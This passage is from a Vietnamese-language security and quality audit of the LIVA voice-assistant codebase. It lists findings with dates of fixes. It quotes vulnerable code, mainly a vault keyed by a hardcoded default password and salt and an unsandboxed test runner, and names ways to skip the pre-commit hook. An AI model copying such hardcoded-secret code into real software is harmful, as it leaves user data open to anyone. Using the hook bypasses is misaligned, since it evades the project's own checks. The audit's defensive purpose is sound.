| ~~**H5**~~ ✅ **ĐÃ SỬA 23/07/2026** | Panic-on-boot: DB, LLM manager, phụ thuộc cứng `vec0.dll` | Thiếu `vec0.dll` hoặc DB khoá/hỏng → crash im lặng lúc khởi động, không màn hình lỗi | **Đã vá cả 3 phần:** (1) **binary standalone** — 3 điểm boot dùng `die()`/`die_db()` (0.6): stderr có hành động cụ thể + exit(1), không backtrace; (2) **vỏ Tauri** — `die_tauri_boot` hiện **MessageBox lỗi boot** (dùng chung `db_error_hint`: gợi ý `npm ci` khi thiếu vec0) thay vì panic im lặng, cho DB/LLM; (3) **đóng gói vec0** — `db::vec0_candidate_paths` nay thêm candidate **cạnh executable + `resources/`** (không phụ thuộc cwd/node_modules) + `tauri.conf.json` `bundle.resources` đưa `vec0.dll` vào installer. Runtime candidates có test; phần bundle chỉ verify đầy đủ được bằng `tauri build`. **Chưa làm:** chế độ suy giảm memory-only (thiếu vec0 vẫn chặn boot, chỉ khác là báo rõ) |
| ~~**H6**~~ ✅ **ĐÃ SỬA 22/07/2026** | **Không có hệ thống migration DB** | `SCHEMA_VERSION = 3` (`db.rs:413`) + `MIGRATIONS: &[(i64, &str)]` (`db.rs:422`) + `run_migrations` (`db.rs:450`): đọc `PRAGMA user_version`, áp tuần tự từng migration **trong transaction**, đóng dấu version sau mỗi bước | DB cũ (`user_version = 0` nhưng đủ bảng baseline) được **đóng dấu lên 1 không mất dữ liệu**; DB từ bản LIVA **mới hơn** bị **từ chối tường minh** (`db.rs:453`) thay vì chạy mù trên schema lạ | **Kiểm chứng sống 26/07/2026:** khởi động lõi trên DB trống in đúng `DB migration: đã nâng schema lên version 2` rồi `version 3`. Có test hồi quy cho cả hai chiều (nâng cấp giữ dữ liệu; từ chối DB tương lai) |
| ~~**H7**~~ ✅ **ĐÃ KHÉP 23/07/2026** | Bộ nhớ dài hạn từng không nối vào đường hội thoại | Recall/persist scoped chạy trên ba cửa vào; event + vector/FTS ghi atomic; projection consumer có checkpoint, retry/DLQ và chạy ở hai runtime | Producer, recall và projection finalization đã có; semantic extraction/L3 vẫn là khoản nợ riêng | Tiếp theo: Reflection/fact-relation extraction từ event đã finalized |

### H1. `evolution::Sandbox` không phải sandbox — chạy `cargo test` thẳng trên host ⬇️ **HẠ MỨC 22/07/2026**

**Bằng chứng:** `liva-native-core/src/evolution/sandbox.rs:40-50`

```rust
pub async fn run_tests(project_path: &Path) -> Result<TestOutput, SandboxError> {
    let mut cmd = Command::new("cargo");
    cmd.arg("test").current_dir(project_path).env("CARGO_TARGET_DIR", &target_dir)
```

Cơ chế cô lập duy nhất: `timeout(Duration::from_secs(30), ...)` (`sandbox.rs:104`). Không container, không job object, không token hạ quyền, không giới hạn network/fs. `cargo test` thực thi `build.rs`, proc-macro và thân test với **toàn quyền user**.

**Hệ quả:** Nếu vòng self-correction (mục đích của module này) từng được nối dây, code do LLM sinh ra sẽ chạy tuỳ ý trên máy người dùng. Hiện tại **là code chết** — `grep -rn "evolution::|SelfCorrection|Sandbox::" liva-native-core/src liva-desktop/src-tauri/src` (loại trừ chính `src/evolution/`) trả về **0 kết quả**; `lib.rs` chỉ khai `pub mod evolution;`.

**Trạng thái mới (22/07/2026 — commit `4c08f18`).** Module đã được **feature-gate**, không xoá:

- `lib.rs:14` `#[cfg(feature = "experimental")]` / `lib.rs:15` `pub mod evolution;` ⇒ **không còn được biên dịch vào build mặc định**.
- Hai file test bị gate **cả file** bằng `#![cfg(feature = "experimental")]` ở `tests/sandbox_stress.rs:5` và `tests/self_correction_stress.rs:5` ⇒ với `cargo test` mặc định, hai file này sinh **0 test**. Câu "có 6 test CI chạy nó" ở bản trước **không còn đúng**.
- CI thay bằng một bước **compile-check** để code không mục nát: `.github/workflows/test.yml:78-80` — `cargo check --all-targets --features experimental`. Compile chứ **không** chạy test, nên 65 giây `cargo test` lồng nhau đã rời khỏi đường CI mặc định.

Vì vậy mục này được **hạ mức**: bề mặt tấn công thực tế bằng 0 trên bản giao cho người dùng. Phần còn lại là rủi ro tiềm ẩn nếu ai đó bật `--features experimental` rồi nối dây.

**Đề xuất (còn hiệu lực cho tương lai):** Trước khi gỡ feature-gate, phải đổi tên thành `TestRunner` và ghi rõ "KHÔNG cô lập", hoặc bổ sung Windows Job Object + hạ quyền + chặn network. Việc "dọn thời gian CI" thì **đã thu về xong** bằng feature-gate, không cần xoá module nữa.

### H2. Stronghold vault mã hoá bằng mật khẩu/salt hardcode

> ✅ **ĐÃ SỬA 23/07/2026** — xem tóm tắt ở bảng HIGH phía trên. Password/salt vault
> nay per-machine niêm phong DPAPI (`.vault_secret` cô lập khỏi khoá DB), migrate
> lossless vault cũ + fail-soft reset, gỡ plugin + capability. Phần dưới giữ lại
> làm hồ sơ hiện trạng CŨ.

**Bằng chứng (hiện trạng cũ):** `liva-desktop/src-tauri/src/lib.rs:123-129`

```rust
let password = std::env::var("LIVA_STRONGHOLD_PASSWORD")
    .unwrap_or_else(|_| "LIVA_DEFAULT_SECURE_PASSWORD".to_string());
let salt_str = std::env::var("LIVA_STRONGHOLD_SALT")
    .unwrap_or_else(|_| "LIVA_STRONGHOLD_PERSISTENT_SALT_KEY".to_string());
```

Cùng cặp giá trị lặp lại ở `lib.rs:384` (closure Argon2id của plugin). Không có `.env` trên máy này và **không có crate `dotenv`/`dotenvy` nào trong `Cargo.lock`** → mặc định luôn có hiệu lực.

**Hệ quả:** Snapshot `liva_vault.app` (nơi UI lưu API key qua `write_vault_key`) mở được bằng hằng số có trong mã nguồn công khai. Salt cố định → rainbow table dùng chung cho mọi cài đặt.

**Đề xuất:** Sinh salt ngẫu nhiên/máy lúc cài đặt, lưu cạnh snapshot; lấy password từ DPAPI/Windows Credential Manager thay vì hằng số; bỏ default.

### H3. Không có guard `prompt_tokens > n_ctx`, và lịch sử hội thoại **không bao giờ bị cắt**

**Bằng chứng:**

- `llm/engine.rs:260-278` — prefill: dựng `LlamaBatch::new(tail_tokens.len(), 1)` và `decode` toàn bộ, **không so sánh với `self.n_ctx`**. `prune_kv_cache` (`engine.rs:69-88`) chỉ được gọi **bên trong vòng sinh token** (`engine.rs:289-294`), tức là sau khi prefill đã xong.
- `agent/graph.rs:156-172` — `chat_completion` duyệt **toàn bộ** `state.messages` để `compile_prompt`, không giới hạn.
- `webrtc/pipeline.rs:246+` — state được `load_checkpoint`/`save_checkpoint` qua `SqliteCheckpointer`, nên `messages` **tích luỹ vĩnh viễn theo `session_id`**.
- `grep "truncat|max_messages|drain"` trên `llm/prompt/mod.rs`, `agent/*.rs`, `webrtc/pipeline.rs` → chỉ có `last_tokens.truncate(common_len)` (cache prefix), không có cắt lịch sử.
- `n_ctx` mặc định 4096 (`main.rs:127`, `desktop lib.rs:334`).

**Hệ quả:** Sau vài chục lượt trong cùng phiên, prompt vượt 4096 token → `decode` lỗi ("Decode failed") hoặc KV cache hành xử sai; trợ lý "chết" giữa cuộc trò chuyện dài. Đây là lỗi chắc chắn xảy ra trong sử dụng thật, không phải giả định.

**Đề xuất:** Cắt cửa sổ trượt trên `state.messages` (giữ system + N lượt cuối) trước khi `compile_prompt`; thêm kiểm tra `prompt_tokens.len() < n_ctx - max_new_tokens` và cắt từ đầu nếu vượt; test hồi quy cho phiên 100 lượt. Bản vá từng bước là **F2** trong lộ trình.

> 📌 Nguồn đầy đủ (cấu hình LLM, `n_ctx`, cách dựng prompt): [Hệ LLM và prompt](../01-ban-ve/04-he-llm-va-prompt.md)
> 📌 Nguồn đầy đủ (hướng dẫn sửa F2): [Lộ trình sửa lỗi và nâng cấp](03-lo-trinh-sua-loi-va-nang-cap.md)

### H4. Router intent dùng `contains()` trên chuỗi con → kích hoạt tool sai — **ĐÃ KHÉP 26/07/2026**

> **Đã vá.** `route_intent` (`agent/graph.rs`) nay khớp theo **token trọn vẹn** qua `has_word`/`has_phrase`, **và** có từ khoá tiếng Việt (`đèn`, `quạt`, `điều hoà`, `máy lạnh`, `bật`, `tắt`, `mở`, `đóng`) — tức vá luôn **âm tính giả** nêu ở cuối mục này, không chỉ dương tính giả. Doc-comment ngay trên hàm liệt kê đúng các câu bản cũ hiểu sai, và có khối test hồi quy ép chúng: `"let's get back on track"`, `"I want coffee and a fan"`, `"the office light"`, `"place it on the table"`, `"how much money for the lamp"` → tất cả phải là `Intent::Chat`.
>
> **Hai lớp giảm nhẹ bổ sung, ngoài phạm vi đề xuất gốc.** (1) `Intent::Vision` được ưu tiên **trước** nhánh thiết bị, nên "bật đèn trên màn hình" đi vào vision chứ không thành lệnh thiết bị. (2) Kể cả khi định tuyến sai, `smart_home::execute` nay **không báo thành công giả** — nó nói thẳng là chưa có tích hợp phần cứng (xem 5.6). Tức chuỗi "định tuyến sai → hành động vật lý ngoài ý muốn" **đứt ở hai chỗ độc lập**.
>
> **Còn lại:** đây vẫn là định tuyến theo từ khoá. Đề xuất "để chính LLM sinh tool-call có schema" đã thành hiện thực ở `llm/tool_calling.rs` (`45e2e58`) nhưng **mặc định TẮT** (`LIVA_TOOL_CALLING=1`) — nên đường nhanh keyword vẫn là đường mặc định. **Bước xác nhận cho hành động vật lý vẫn CHƯA có** và sẽ cần thiết ngay khi nối phần cứng thật.

**Bằng chứng (bản cũ, giữ để đối chiếu lịch sử):** ~~`agent/graph.rs:96-112`~~

```rust
let device = if text_lower.contains("light") { Some("light") }
    else if text_lower.contains("ac") { Some("ac") }
    else if text_lower.contains("fan") { Some("fan") } else { None };
let action = if text_lower.contains("on") { Some("on") }
    else if text_lower.contains("off") { Some("off") } else { None };
```

`"ac"` là chuỗi con của `back`, `track`, `accept`, `machine`, `character`…; `"on"` là chuỗi con của `con`, `song`, `one`, `money`, `phone`, `only`… Đường đi này **[OK] chạy thật** — `build_pipeline_graph` được gọi tại `webrtc/pipeline.rs:271`.

**Hệ quả (bản cũ):** Câu "we're back on track" hay "cái điện thoại đó" (nếu có "ac"/"on") sẽ chạy `integrations::smart_home::execute` và trả tool result vào prompt. Với thiết bị thật, đây là hành động vật lý ngoài ý muốn.

**Đề xuất (bản cũ) — đã thực hiện:** chuyển sang khớp theo token/từ có ranh giới ✅; để chính LLM sinh tool-call có schema ✅ (opt-in); thêm bước xác nhận cho hành động vật lý ❌ **chưa làm**.

**Phần CHƯA khép của mục này:** việc tự chụp màn hình khi câu nói khớp từ khoá màn hình **vẫn không có xác nhận nào**. Nhánh `Intent::Vision` nay còn được ưu tiên **cao nhất**, nên nó dễ kích hoạt hơn trước chứ không khó hơn. Quyện với C1 vẫn là kênh rò rỉ — theo dõi ở đó, không đóng theo H4.

### H5. Panic-on-boot: DB, LLM manager, và phụ thuộc cứng vào `vec0.dll`

**Bằng chứng:**

- `main.rs:72,74` và `liva-desktop/src-tauri/src/lib.rs:279,281` — `.expect("Failed to initialize DatabasePool")`.
- `main.rs:136`, `desktop lib.rs:342-343` — `.expect("Failed to initialize LlamaRouterManager")`.
- `main.rs:46,57` — `.expect("Failed to build Tokio runtime")`, `.expect("setting default subscriber failed")`.
- `llm/engine.rs:31` — `LlamaBackend::init().expect("Failed to initialize llama.cpp backend")` trong `OnceLock`.
- `db.rs:27` — load `sqlite-vec` thất bại chỉ `eprintln!("Warning: ...")`, nhưng `init_schemas` sau đó `CREATE VIRTUAL TABLE vec_idx USING vec0(...)` (`db.rs:348`) → lỗi → bung qua `.expect` ở trên.

**Hệ quả:** Thiếu `node_modules/sqlite-vec-windows-x64/vec0.dll` (một dependency npm!) hoặc DB bị khoá/hỏng → ứng dụng **crash im lặng lúc khởi động**, không có màn hình lỗi. Với beta 5 người dùng laptop, đây là chế độ hỏng khó chẩn đoán nhất.

**Đề xuất:** Thay `.expect` bằng đường xử lý lỗi có UI: báo lỗi rõ ràng + chạy chế độ suy giảm (memory-only, không vector). Đóng gói `vec0.dll` cùng bundle thay vì phụ thuộc `node_modules`.

### H6. Không có hệ thống migration DB — **ĐÃ SỬA 22/07/2026**

> **Đã vá.** `SCHEMA_VERSION: i64 = 3` (`db.rs:413`), danh sách `MIGRATIONS: &[(i64, &str)]` (`db.rs:422`) và `run_migrations` (`db.rs:450`) đọc `PRAGMA user_version` rồi áp tuần tự từng bước **trong transaction**, đóng dấu version sau mỗi bước.
>
> Hai ca biên được xử lý tường minh, và đây mới là phần đáng ghi nhận: (1) DB **cũ** ở `user_version = 0` nhưng đã đủ bảng baseline được **đóng dấu lên 1 mà không mất dữ liệu** — đúng tình huống của 5 beta tester đang có DB thật; (2) DB tạo bởi bản LIVA **mới hơn** bị **từ chối tường minh** (`db.rs:453`) thay vì chạy mù trên schema lạ, tức tránh được kiểu hỏng âm thầm khi người dùng hạ cấp bản build.
>
> **Kiểm chứng sống 26/07/2026:** khởi động lõi trên DB trống in đúng `DB migration: đã nâng schema lên version 2` rồi `version 3`. Có test hồi quy cho cả hai chiều.

**Bằng chứng (bản cũ, giữ để đối chiếu lịch sử):** ~~`db.rs:188-354`~~ từng là một `execute_batch` duy nhất toàn `CREATE TABLE IF NOT EXISTS`, không `PRAGMA user_version`, không bảng `schema_migrations`, không một câu `ALTER TABLE` nào.

> 📌 Nguồn đầy đủ (ERD, 15 bảng, PRAGMA, pool SQLite): [Tầng dữ liệu và bảo mật](../01-ban-ve/07-tang-du-lieu-va-bao-mat.md)

### H7. Bộ nhớ dài hạn không được nối vào đường hội thoại chính — **ĐÃ KHÉP 23/07/2026**

**Trạng thái hiện tại:** cả ba cửa vào recall/persist theo scope. Mỗi lượt được embed tạo event pending và vector/FTS trong cùng transaction. Projection consumer chạy ở standalone + Tauri, bounded batch, idempotent, checkpoint atomic và DLQ sau ba lỗi. Chưa khép phần sâu hơn: worker không trích xuất semantic fact/relation; `turn_layer_nodes`/L3 vẫn không có writer.

**Bằng chứng lịch sử trước khi sửa:**

**Bằng chứng:** Đọc toàn bộ `agent/graph.rs` (289 dòng): node `chat_completion` dựng prompt **chỉ từ** `state.messages` + `PERSONA_LIVA`. **Không có** lời gọi `search_hybrid_vectors`, `get_fact`, `upsert_vector`, và **không có** ghi vào `turn_layer_nodes`/`events`. Chỉ có `SqliteCheckpointer` lưu `agent_checkpoints`. Các bảng `l3_nodes`/`l3_edges`, `daily_briefings`, `personality_state`, `consolidation_checkpoints`, `dlq_consolidation`, `vector_dlq` không có reader/writer nào. `passive::` cũng chết (`grep "passive::"` ngoài chính module → 0).

**Hệ quả:** Tên CI là "LIVA H-MEM Test Suite" và schema có 3 tầng L0/L2/L3, nhưng khi nói chuyện bằng giọng, LIVA **không nhớ gì** ngoài checkpoint của đúng phiên đó. Với hồ sơ dự thi, đây là khoảng cách lớn nhất giữa mô tả kiến trúc và hành vi kiểm chứng được.

**Đề xuất:** Ưu tiên số 1 về tính năng: thêm node `recall` (hybrid search → chèn vào system) và node `persist` (ghi `turn_layer_nodes` + `upsert_vector`) vào `build_pipeline_graph`. Trong lúc chưa xong, tài liệu phải nói rõ "schema đã sẵn sàng, chưa nối dây" (đúng nguyên tắc tách "đã kiểm chứng" vs "tiềm năng").

---

## 3. MEDIUM

| # | Vấn đề | Bằng chứng | Đề xuất |
|---|---|---|---|
| **M1** | `std::sync::Mutex` + `.unwrap()` trong `TtsAudioPlayer` — poison lan ra toàn bộ đường TTS | `tts/audio.rs:31,44,53,64,74,91` — 6 lần `self.lock.lock().unwrap()`, 4 lần trong task `tokio::spawn` fade-out. Tương tự `pipeline.rs:336,340,354`. *Định lượng để khỏi phóng đại:* tổng `.unwrap()` trong `src` (trừ `bin/`) là **199**, nhưng phần lớn trong `#[cfg(test)]`; số còn lại chủ yếu là `Regex::new(<literal>).unwrap()` (`normalizer.rs` 18, `g2p.rs` 9) — **an toàn**. `.expect()` 48, `panic!()` 1 | `parking_lot::Mutex` (không poison) hoặc `.lock().unwrap_or_else(\|e\| e.into_inner())` |
| ~~**M2**~~ ✅ **ĐÃ ĐÓNG 26/07/2026** | CI gần như không gate gì | Gốc: chỉ vitest + cargo test; clippy `continue-on-error`; không fmt/ESLint/tsc/build Tauri/cache Cargo; coverage threshold không bao giờ áp dụng | **22/07:** clippy thành gate cứng (`-D warnings`), `vue-tsc` + ESLint + `test:coverage` + cache Cargo. **26/07:** thêm ba thứ còn thiếu — (1) `node scripts/e2e-gateway-ci.mjs` chạy **gateway thật qua socket** mỗi push; (2) workflow riêng `.github/workflows/release.yml` dựng `cargo build --release` + `npx tauri build` (tag · tay · **hằng tuần**) và chạy lại e2e trên binary release — đường duy nhất `vision:ask` hoạt động; (3) `docs-citations.mjs --max-unchecked=521` biến số trích dẫn không kiểm được thành chốt chỉ-giảm. **Còn thiếu:** `cargo fmt` |
| **M3** | Khoảng trống test đúng ở chỗ nguy hiểm nhất | Không `#[cfg(test)]`: `lib.rs` (**1.752 dòng, toàn bộ tập lệnh** — đo lại 22/07/2026), `webrtc/pipeline.rs`, `webrtc/vad.rs`, **`webrtc/frame.rs`** (codec parse dữ liệu **không tin cậy**), `stt/*`, `mcp/server.rs`, `agent/graph.rs`, `telegram.rs`, `tts/*`. *Vế thứ hai đã hết hiệu lực 22/07/2026:* ba file stress test code chết bị feature-gate nên `cargo test` mặc định **không còn chạy chúng** | Đảo ngược tỉ trọng: fuzz `VoiceFrame::decode`, bảng test cho `handle_command`, test `resolve_path` trực tiếp |
| ~~**M4**~~ ✅ **ĐÃ SỬA 26/07/2026** | Hai entry point lệch hành vi | Mô tả gốc ("Tauri hardcode `None`, không WS, không Telegram") **đã sai một phần từ trước**: vỏ Tauri vẫn spawn WS server và vẫn gọi `VoiceRuntimeComponents::from_env`. Lệch THẬT chỉ còn hai chỗ, và cả hai đều nằm ở vỏ desktop — thứ người dùng chạy: **không giải phóng session TTS khi rảnh 5 phút** (giữ session ONNX suốt đời tiến trình) và **không chạy bot Telegram** (đặt token xong bot im lặng không chạy) | **Đã tách builder chung**: `liva-native-core/src/boot.rs#build_app_state` + `#spawn_background_services` — hai vỏ co lại −621 dòng, mọi dịch vụ nền khai ở **một** chỗ. Khác biệt còn lại đóng khung trong `boot::ServiceOptions` (stdin IPC, `gateway-ready`, cách hiện lỗi/escrow). Có test khoá hồi quy `boot.rs#khong_vo_nao_tu_dung_lai_app_state` — nó **đọc mã nguồn hai vỏ** và đỏ ngay nếu vỏ nào tự dựng lại `AppState`, vì không có gì trong trình biên dịch ngăn việc chép lại 155 dòng đó |
| ~~**M5**~~ ✅ **ĐÃ SỬA 21/07/2026** | `LIVA_DB_IN_MEMORY` dùng `.is_ok()` — **bẫy mất dữ liệu** | `main.rs:69`, Tauri `lib.rs:277`. Chỉ cần biến **tồn tại** là DB in-memory, kể cả `=false` (chính giá trị `.env.example:24` khuyến nghị!) | Parse giá trị (`== "1" \| Đã thêm helper dùng chung `env_flag(key, default)` (`lib.rs:78`) và thay ở cả hai điểm vào. Nhận `1/true/yes/on` và `0/false/no/off` (không phân biệt hoa thường); giá trị lạ → log cảnh báo rồi dùng default thay vì âm thầm đổi hành vi. Nhân tiện thay luôn cho `LIVA_DENOISE_ENABLED`, `LIVA_TURN_SHADOW_ENABLED`, `LIVA_AEC_ENABLED` — ba cờ này trước đó chỉ nhận đúng chuỗi `"1"`, ai viết `=true` bị bỏ qua. 5 unit test, gồm ca tái hiện đúng bug. **Đã khép nốt 22/07/2026:** `LIVA_TTS_VIENEU` nay cũng dùng helper (`tts/mod.rs:158`) sau khi các bin bỏ `#[path]` |
| **M6** | Bề mặt tấn công WebView: `withGlobalTauri` + `unsafe-inline` + `native_ipc_call` không lọc | `tauri.conf.json:12,45`; `lib.rs:228-235`. ACL Tauri không giúp gì vì mọi thứ qua **một** command. Quyền thừa: `stronghold:allow-execute-procedure`, `core:image:allow-from-path` | Bỏ `unsafe-inline`, bỏ `withGlobalTauri`, tách `native_ipc_call` thành nhóm lệnh allow-list theo cửa sổ |
| **M7** | Trùng lặp normalizer Rust ↔ Python; `liva-voice` mồ côi hoàn toàn | `tts/normalizer.rs` (986 dòng, dòng 6 ghi rõ là port). Bản Python (310 dòng) vẫn sống. **Không dòng Rust/TS/Vue nào tham chiếu 8765** ⇒ 3016 dòng Python là nhánh song song không ai gọi nhưng vẫn phải bảo trì logic ở hai nơi sẽ trôi lệch | Quyết định dứt điểm: archive `liva-voice/` hoặc nối dây nó |
| **M8** | `reset()` của VAD/denoiser không bao giờ được gọi | `denoise.rs:101`, `vad.rs:123` — grep chỉ thấy trong test | State hồi quy không reset ở ranh giới lượt nói/phiên; client thứ hai dùng state của client cũ |
| **M9** | I/O chặn trong `async fn handle_command` | `lib.rs` có 9 lần `std::fs::` gọi trực tiếp trong hàm `async` (vd `:354`, `:414`) | Bọc `spawn_blocking` |
| **M10** ⚠️ **MỚI 26/07/2026** | **Truy hồi tool nay LOẠI BỚT tool khỏi prompt mỗi lượt** | U19 (`6b5b87b`) nâng danh mục nội bộ **4 → 6 tool** trong khi `DEFAULT_TOP_K` (`llm/tool_calling.rs`) **vẫn là 4**. Trước đó 4 ≤ 4 nên thứ hạng embedder không ảnh hưởng gì — mọi tool luôn lọt vào prompt | Từ nay **thứ hạng truy hồi quyết định tool nào LLM được thấy**. Một tool xếp thứ 5 là vô hình với model ở lượt đó, và triệu chứng sẽ là "LIVA không hiểu lệnh" chứ không phải một lỗi — tức **hỏng im lặng**, đúng loại khó lần nhất. Rủi ro tăng theo mỗi tool thêm vào | Hai lựa chọn, phải chọn có ý thức chứ không để trôi: nâng `DEFAULT_TOP_K` (trả bằng token prompt) **hoặc** giữ 4 và **bắt buộc đo lại tầng 1** mỗi lần thêm tool. Commit U19 đã tự ghi điều kiện sau: *"Thêm tool thứ 7 phải đo lại tầng 1, không được cho là hiển nhiên"* — nhưng hiện **không có gì cưỡng chế** điều đó ngoài trí nhớ |

### Chi tiết bổ sung cho các mục MEDIUM

**M1 — ghi chú định lượng.** Tổng `.unwrap()` trong `liva-native-core/src` (trừ `bin/`) là **199**, nhưng phần lớn nằm trong `#[cfg(test)]`. Sau khi lọc theo vị trí `#[cfg(test)]`: `vision/diff.rs` 0/36, `db.rs` 0/26, `llm/prompt/mod.rs` 0/13, `passive/buffer.rs` 0/4. Số còn lại chủ yếu là `Regex::new(<literal>).unwrap()` trong `tts/normalizer.rs` (18) và `tts/g2p.rs` (9) — **an toàn** vì pattern là hằng số. `.expect()` 48, `panic!()` 1. **Rủi ro thật tập trung ở M1 và H5.** Nếu bất kỳ luồng nào panic khi giữ lock của `TtsAudioPlayer`, mọi lời gọi `play`/`stop`/`is_empty` sau đó **panic vĩnh viễn** — trợ lý mất tiếng cho tới khi khởi động lại.

**M2 — CI. ✅ ĐÃ ĐÓNG,** qua hai đợt (22/07 và 26/07). Rủi ro gốc: CI **không chặn** được gì ngoài test đỏ — clippy `continue-on-error`, không fmt/ESLint/`tsc --noEmit`/build Tauri, `thresholds` coverage không bao giờ được áp dụng vì thiếu `--coverage`, và quy tắc ESLint chỉ sống ở pre-commit hook (bỏ qua được bằng `SKIP_AI_HOOK=1` / `--no-verify`).

Đợt 26/07 đóng nốt phần "CI không dựng thứ người dùng nhận", và nó **tìm ra ngay một lỗi mà chính khoảng trống đó đã giấu**: `tauri.conf.json` khai `frontendDist: "../liva-ui/dist"` — đường dẫn resolve từ `src-tauri/` nên trỏ vào `liva-desktop/liva-ui/dist` **không tồn tại**. `npx tauri build` chết ở *"Unable to find your web assets"* **mọi lần**, và không ai biết vì chưa từng có job nào chạy nó. Sau khi vá thành `../../liva-ui/dist`, bộ cài dựng được lần đầu: MSI 41,5 MB + NSIS 27,0 MB.

Cùng đợt, e2e trên **binary release** cho `vision:ask` đi trọn vẹn lần đầu dưới một bộ kiểm tự động: **trả lời thành công sau 80,4 giây** (chụp màn hình → Qwen3-VL-2B Q4_K_M trên CPU). Số đo trần trụi, chưa tối ưu — dùng làm mốc chống thụt lùi.

> Một giả định trong tài liệu cũng bị đo lại và sai: đầu `e2e-gateway.mjs` ghi *"KHÔNG nằm trong CI: cần model weights"*. Trỏ mọi biến model vào đường dẫn không tồn tại rồi chạy → **vẫn 8/8 đạt**. Cả 8 mục kiểm đều nói về giao thức, không về model; thứ duy nhất thật sự cần là `vec0` do npm `sqlite-vec` cấp.

> 📌 Nguồn đầy đủ (workflow từng bước, những gì CI KHÔNG làm, 3 cách bypass hook): [Kiểm thử và CI](../02-van-hanh/04-kiem-thu-va-ci.md)

**M3 — bản đồ khoảng trống test.** Khoảng trống rơi đúng vào vùng nguy hiểm nhất: `lib.rs` (toàn bộ `handle_command`), `webrtc/frame.rs` (codec parse dữ liệu **không tin cậy** từ WS), `webrtc/pipeline.rs`, `stt/*`, `mcp/server.rs` (guard chống path-traversal), `agent/graph.rs`, `telegram.rs`, `tts/*` — không file nào có `#[cfg(test)]`.

**Vế "tỉ trọng ngược" đã được sửa 22/07/2026.** Trước đó phần lớn thời gian `cargo test` đổ vào `sandbox_stress.rs`/`self_correction_stress.rs`/`swarm_stress_tests.rs` — **test code chết** (H1) — vì hai file đầu spawn `cargo test` lồng nhau (~65 giây). Commit `4c08f18` gate **cả ba file** bằng `#![cfg(feature = "experimental")]` (dòng 5 mỗi file), nên `cargo test` mặc định sinh **0 test** từ chúng. Số đo thật sau khi gate:

| Lệnh | Kết quả |
|---|---|
| `cargo test` (mặc định) | **206 pass + 1 ignored** — lib 191 pass + 1 ignored, `main.rs` 6, `integration_tests` 7, `verify_commands` 1, `panic_cleanup` 1 |
| `cargo test --features experimental` | **226 pass** (thêm 20 test từ 3 file stress + `integration_tests::test_case_6`) |

⇒ Khoảng trống test ở vùng nguy hiểm **vẫn còn nguyên** (đó mới là nội dung chính của M3), nhưng thời gian CI không còn bị code chết chiếm nữa.

> 📌 Nguồn đầy đủ (bảng test, 30/60 file không có test, 9 lỗ hổng theo subsystem): [Kiểm thử và CI](../02-van-hanh/04-kiem-thu-va-ci.md)

**M4 — hai entry point. ✅ ĐÃ SỬA 26/07/2026, và mô tả gốc đã sai một phần từ trước.**

Bản gốc viết: *"Vỏ Tauri hardcode `vad/denoiser/turn_shadow/aec = None`, không chạy WebSocket server lẫn Telegram ⇒ toàn bộ `LIVA_VAD_*`, `LIVA_SERVER_*`, `TELEGRAM_*` vô tác dụng trên bản desktop."* Đối chiếu lại mã nguồn:

| Khẳng định gốc | Thực tế |
|---|---|
| hardcode bốn module thoại `= None` | **Sai** — vỏ Tauri gọi `VoiceRuntimeComponents::from_env(&stt_model_dir)` như gateway ⇒ `LIVA_VAD_*`/`LIVA_DENOISE_*`/`LIVA_AEC_*` **có** tác dụng |
| không chạy WebSocket server | **Sai** — `setup()` spawn `WebSocketServer::bind_from_env()` ⇒ `LIVA_SERVER_*` **có** tác dụng |
| không chạy Telegram | **Đúng cho tới 26/07/2026** — `TELEGRAM_*` thật sự vô tác dụng trên bản desktop |

Và một lệch **chưa từng được ghi**, cùng loại và cùng hướng: vỏ desktop không có tác vụ
`check_idle_unload` (chỉ gateway có), nên nó **không bao giờ trả lại session ONNX của TTS** — trên
một ứng dụng chạy cả ngày, đó là RAM giữ vĩnh viễn.

Cả hai đã đóng bằng builder chung `boot.rs`. Bài học đáng giữ lại không phải "Tauri thiếu tính
năng" mà là: **hai bản sao mã khởi động sẽ lệch, và lệch ở chỗ không ai nhìn** — `scripts/e2e-gateway.mjs`
kiểm gateway, còn người dùng chạy vỏ desktop. Đó cũng là lý do bản vá kèm một test **đọc mã nguồn
hai vỏ** để chặn việc chép lại.

> 📌 Nguồn đầy đủ (bảng so sánh hai profile chạy): [Kiến trúc tổng thể](../01-ban-ve/01-kien-truc-tong-the.md)

**M5 — bẫy mất dữ liệu. ✅ ĐÃ SỬA 21/07/2026.** `main.rs:69` và `desktop lib.rs:277` từng dùng `std::env::var("LIVA_DB_IN_MEMORY").is_ok()`. Chỉ cần biến **tồn tại** là DB thành in-memory, kể cả `LIVA_DB_IN_MEMORY=false`. Người dùng làm đúng theo tài liệu sẽ mất sạch bộ nhớ mỗi lần khởi động mà không có cảnh báo.

Đã thay bằng helper dùng chung `env_flag(key, default)` (`lib.rs:78`) ở cả hai điểm vào, và dùng luôn cho `LIVA_DENOISE_ENABLED` / `LIVA_TURN_SHADOW_ENABLED` / `LIVA_AEC_ENABLED`. Ba cờ sau vốn **không sai hướng** (tài liệu ghi `=0`, code so `== Ok("1")`) nhưng chỉ nhận đúng chuỗi `"1"` — ai viết `=true` thì bị âm thầm bỏ qua; helper nới ra `1/true/yes/on` và `0/false/no/off`.

Chỗ **từng chưa gộp được** là `LIVA_TTS_VIENEU` trong `tts/mod.rs`: file đó bị `verify_round2`, `voice_profile`, `voice_stress` include qua `#[path]`, nên `crate::` trỏ về bin chứ không phải lib. **Đã khép 22/07/2026** — các bin đã chuyển sang `use liva_native_core::...` (xem L8), và `tts/mod.rs:158` nay gọi thẳng `crate::env_flag("LIVA_TTS_VIENEU", false)`.

**M7 — trùng lặp normalizer.** `liva-native-core/src/tts/normalizer.rs` (**986 dòng**) — dòng 6 ghi rõ: *"Native port of `liva-voice/src/vietnamese_normalizer.py`"*. Bản Python (`liva-voice/src/vietnamese_normalizer.py`, 310 dòng) vẫn sống, được `liva_api.py:217` và `voice_pipeline.py:21` dùng. **Không có một dòng Rust/TS/Vue nào tham chiếu port 8765 hay `liva-voice`** (grep trên `liva-native-core/src`, `liva-desktop/src-tauri/src`, `liva-ui/src` → chỉ khớp đúng dòng comment nói trên). ⇒ 3016 dòng Python (`gpt_sovits_core.py`, `speaker_verifier.py`, `hallucination_filter.py`, `vram_manager.py`…) là nhánh song song không ai gọi.

**M8 — state không reset.** `webrtc/denoise.rs:101` `pub fn reset(&mut self)` và `webrtc/vad.rs:123` — grep chỉ tìm thấy trong test (`denoise.rs:273`). State hồi quy (conv/tra/inter cache của GTCRN, `state[2,1,128]` của Silero) không được reset ở ranh giới lượt nói hay khi client ngắt kết nối.

